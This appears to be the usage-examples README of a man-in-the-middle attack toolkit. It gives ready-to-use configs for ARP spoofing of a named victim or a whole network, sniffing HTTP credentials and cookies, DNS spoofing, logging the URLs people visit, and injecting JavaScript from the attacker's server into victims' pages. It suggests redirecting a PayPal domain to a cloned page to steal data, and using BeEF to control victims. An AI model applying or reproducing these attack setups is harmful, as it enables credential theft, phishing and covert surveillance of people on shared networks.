

# Usage examples

## Simple net recon and analysis
Let's perform a simple active and passive analysis in the net, resolving every ip we get so we can know the device name associated with that ip. The NetAnalyzer module config could be something like this:
```
[netanalyzer]
enabled=1
gateway=192.168.1.1
resolve=1
active=1
passive=1
passive_arps_everyone=0
passive_timeout=600
```
We could also use passive_arps_everyone, but I believe this is too aggressive and not always necessary. Remember to set enabled to 0 on every other module.


## Sniffing credentials
For sniffing credentials that our victim sends through an insecure page, we need to use the ARPS module to perform a MITM attack to the victim, and the SNIFFER module to sniff every http packet. An example config could be this:
```
[sniff]
enabled=1
time_limit=
attributes=*
get_every_cookie=0

[arps]
enabled=1
target=192.168.1.187
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0
```
Remember to set enabled to 0 on every other module.


## DNS Spoofing
We'll need ARPS and DNS modules. The config could be this:
```
[arps]
enabled=1
target=192.168.191.187
gateway=192.168.191.1
time_limit=
interval=2
disconnect=0

[dns]
enabled=1
file=dns
time_limit=
```
The interesting part is the dns file, while we set which hosts we want to redirect. An examples that redirects example.com to marca.com, wikia.com to pokexperto.net, paypal.es to my local ip (where I have the default Apache server), and ignores every other domain containing paypal would be like this:
```
example.com marca.com
wikia.com pokexperto.net
paypal.es 192.168.191.120
paypal *
```
If we use this attack with phising, we could have PayPal cloned on our local ip, and then steal sensitive information easily.


Victim:


## URL Stalking
Discovering which domains and URLs visits someone is very easy. We simply must set enabled to 1 in URLStalker, and configure the ARPS module. If we want to perform this attack to the whole network, we can use this:
```
[arps]
enabled=1
target=everyone
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0

[urlstalker]
enabled=1
time_limit=
```



## JS Injecting
This is a very powerful attack. To inject a JS file called `kiss2.js` located in our local server, we could use something like this:
```
[arps]
enabled=1
target=192.168.1.187
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0

[js]
enabled=0
target=192.168.1.187
file=http://192.168.1.120/kiss2.js
time_limit=
```
This file could contain simply an alert, or also a more complex code, like the one provided by BeEF framework, which gives you a lot of control over the victim.


Victim:


